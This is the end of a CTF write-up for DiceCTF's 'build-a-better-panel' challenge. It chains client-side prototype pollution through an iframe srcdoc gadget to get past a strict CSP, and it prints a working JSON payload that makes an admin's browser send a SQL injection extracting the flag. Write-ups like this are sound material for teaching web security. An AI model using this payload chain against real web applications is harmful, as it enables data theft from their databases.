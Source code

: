 ![TASK](https://imgur.com/4jQJ5SI.png)

Now we have to figure out what to do with the prototype pollution and use it to achieve an XSS or somehow send a request to the endpoint vulnerable to SQL Injection (XSS is pretty hard because there is a strict CSP). After searching a little bit I found the following [github repo](https://github.com/BlackFan/client-side-prototype-pollution) holding several gadgets to use. The website is using embedly and I found the following gadget to achieve XSS ( **[Gadget](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/embedly.md)** ) but as we said with the used CSP it's nearly impossible to execute JS code .
```
default-src 'none'; script-src 'self' http://cdn.embedly.com/; style-src 'self' http://cdn.embedly.com/; connect-src 'self' https://www.reddit.com/comments/;
```
After the end of the CTF I discovered from the discord server of the CTF that there was another gadget permitting us to set any attribute of an iframe , so we can set the srcdoc attribute to redirect the admin to the endpoint vulnerable to SQL injection, our final payload that we will send to create a widget is :

```
{"widgetName":"constructor","widgetData":"{\"prototype\":{\"srcdoc\":\"<script src=\\\"https://build-a-better-panel.dicec.tf/admin/debug/add_widget?panelid=kahlaa%27%2C%20%28select%20flag%20from%20flag%20limit%201%29%2C%20%271%27%29%3B--&widgetname=1&widgetdata=1\\\" ></script>\"}}"}

```
Note that we can execute our payload because the script-src in CSP is set to 'self'.

Finally we have to send the url that opens our panel to the admin in order to execute our gadget `` https://build-a-better-panel.dicec.tf/create?panelId=kahlaa `` .
And Bingo we received our flag :D 

![TASK](https://imgur.com/AkvBN7X.png)

## Conclusion ##
Thank you for reading all the article and sorry if it was a little bit long \o/
DiceCTF was really fun and a good one to start with after some long break :D Unfortunately I couldn't fully participate but it was also fun to complete the tasks after its end. If you have any questions you can contact me on twitter,facebook or by mail , i'll be very glad to help.

























